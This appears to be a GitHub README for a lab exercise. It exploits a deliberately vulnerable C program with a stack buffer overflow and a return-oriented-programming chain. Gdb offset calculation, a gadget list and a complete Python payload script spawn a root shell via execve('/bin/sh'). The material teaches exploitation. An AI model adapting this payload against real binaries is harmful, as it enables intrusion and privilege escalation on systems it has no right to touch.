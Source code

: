 # ROP-Exploit

## Buffer Overflow
Consider the following piece of code in `code.c`:  
```
#include <stdio.h>
#include <string.h>

void vulnerable(char *arg)
{
	char buf[100];
	strcpy(buf, arg);
}

int _main(int argc, char **argv)
{
	if (argc != 2) {
		fprintf(stderr, "Error: need a command-line argument\n");
		return 1;
	}
	vulnerable(argv[1]);
	return 0;
}
```
Use the command `$ gcc code.c -o code -static -g -fno-stack-protector` to compile the C program into an executable. For your convenience, the binary file `code` has been provided for you.

## System Call

## Calculating Buffer Offset
To determine where our buffer begins and which memory address to overwrite, we can pass many `NOP` instructions as command line argument. This gives `payload.py`:
```
print('\x90'*1024)
```
`$ gdb --args code $(python payload.py)` to load the program.  
`(gdb) b *0x8048ef6` to break at `strcpy(buf, arg);` then `(gdb) c` to run till reaching breakpoint.  
`(gdb) x/2x $esp` to see the values of the two arguments. The output is `0xbffe9790: 0xbffe97ac 0xbffff194`, which means that the address of `buf` is at 0xbffe97ac. You may verify the output of `payload.py` (in other words command line argument `argv[1]`) by using the command `(gdb) x/32b 0xbffff194`.  
Next find the 'old_ebp' and 'ret_addr' field by looking at the vicinity of $ebp: `(gdb) x/4wx $ebp`. This should output `0xbffe9818: 0xbffe9838 0x08048f48 0xbffff194 0x00000000`. Verify that 0x08048f48 is the address to a function in the previous stack frame by executing `(gdb) x/32i 0x08048f48`. The result should be as follows:  
```
0x8048f48 <_main+75>:        mov    $0x0,%eax
0x8048f4d <_main+80>:        leave  
0x8048f4e <_main+81>:        ret    
0x8048f4f:   nop
0x8048f50 <main>:    lea    0x4(%esp),%ecx
0x8048f54 <main+4>:  and    $0xfffffff0,%esp
0x8048f57 <main+7>:  pushl  -0x4(%ecx)
---Type <return> to continue, or q <return> to quit---

```
We now know that 'ret_addr' field is at 0xbffe981c and the offset is 0xbffe981c - 0xbffe97ac = 0x70 = 112.

## Finding Gadgets
Use objdump to create a x86 code dump file of the executable: `objdump -d ./code > code.txt`. Following are some gadgets I found useful (I use intel syntax): 
```
<0x808e97d> mov [edx], eax ; ret        # move the value in eax to location where edx points to
<0x8051750> xor eax, eax ; ret          # clears eax
<0x809a546> inc eax ; ret               # increment eax by 1
<0x8050bbc> inc eax ; pop edi ; ret     # increment eax by 1 followed by a trivial pop
<0x80c2356> pop eax ; ret               # pop eax
<0x80481ec> pop ebx ; ret               # pop ebx
<0x80e3d46> pop ecx ; ret               # pop ecx
<0x805733a> pop edx ; ret               # pop edx
<0x80494f9> int 0x80                    # system call
```
Using the above gadgets, the assembly code to assign the proper values to the 4 registers can be easily produced:
```
# store 0 at buf[8]
xor eax, eax
pop edx 
<$esp> buf+8 
mov [edx], eax

# store "/bin/sh" starting at buf[0]
pop eax
<$esp> 0x6e69622f
pop edx
<$esp> buf
mov [edx], eax
pop eax
<$esp> 0x68732f2f
pop edx
<$esp> buf+4
mov [edx], eax

# store address of string into ebx, clear ecx and edx
pop ebx
<$esp> buf
pop ecx
<$esp> buf+8
pop edx
<$esp> buf+8

# put system call number 11 into eax
xor eax, eax
inc eax
pop edi
<$esp> 0x90909090 (garbage value)
... (repeated 11 times)

# int 0x80
```
## Generating Script
We can generate our buffer overflow with addresses jumping to the gadgets, one after another:
```
from struct import pack
buf = 0xbffe97ac
payload = ''
payload += '\x90'*(108+4)

# store 0x0 into buf[8]
payload += pack('<I', 0x08051750)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+8)
payload += pack('<I', 0x0808e97d)

# store "/bin/sh" into buf[0] and buf[4]
payload += pack('<I', 0x080c2356)
payload += pack('<I', 0x6e69622f)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf)
payload += pack('<I', 0x0808e97d)
payload += pack('<I', 0x080c2356)
payload += pack('<I', 0x68732f2f)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+4)
payload += pack('<I', 0x0808e97d)

# ebx <- addr("/bin/sh"), ecx <- 0, edx <- 0
payload += pack('<I', 0x080481ec)
payload += pack('<I', buf)
payload += pack('<I', 0x080e3d46)
payload += pack('<I', buf+8)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+8)

# eax <- 11
payload += pack('<I', 0x08051750)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)

# system call
payload += pack('<I', 0x080494f9)

print(payload)
```

# Code Execution
Use the command `sudo chmod 777 code` to grant everyone permission to read, write and execute the binary. You can then type `$ sudo ./code $(python payload.py)`. Note the `#` appeared in console. Verify that you have been given root access by typing `# whoami`, and you should see `root` as expected.
